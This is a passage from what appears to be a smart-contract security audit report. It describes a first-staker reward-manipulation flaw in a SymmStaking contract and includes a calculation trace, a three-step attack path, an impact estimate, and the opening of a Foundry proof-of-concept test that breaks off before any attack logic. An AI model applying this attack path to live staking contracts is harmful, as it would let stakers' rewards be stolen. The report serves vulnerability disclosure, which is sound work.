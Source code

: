 ```solidity
= ((1000e18 * (7142857142857150000000 - 7142857142857142857142.857142857143)) / 1e18) + 0
= 2857142857142857075000  // Exactly matches POC output

// 5. Bob stakes 1000e18
balanceOf[bob] = 1000e18
userRewardPerTokenPaid[bob] = 7142857142857150000000

// 6. Final results matching POC output:
Attacker earned: 7142857142857142688002
Alice earned: 2857142857142857075000
Bob earned: 0
```

### Internal Pre-conditions
N/A


### External Pre-conditions
N/A



### Attack Path

1. totalSupply needs to be 0 (no previous stakers)
2. Attacker needs to be first staker with minimal amount (1 wei)
3. Victim needs to stake after attacker with significant amount (e.g., 1000e18 tokens)

### Impact

Legitimate stakers suffer significant reward losses (up to 71.43% of intended rewards for early victims), while the attacker gains these rewards by staking just 1 wei, effectively breaking the protocol's reward distribution mechanism.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { Symmio } from "../src/token/symm.sol";
import { SymmStaking } from "../src/staking/SymmStaking.sol";

contract MockRewardToken is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 1_000_000e18);
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract SymmStakingAttack is Test {

    ERC1967Proxy    public symmStakingProxy;
    SymmStaking     public symmStaking;
    Symmio          public mockSymmioToken;
    MockRewardToken public mockRewardToken;

    address public admin;
    address public alice;
```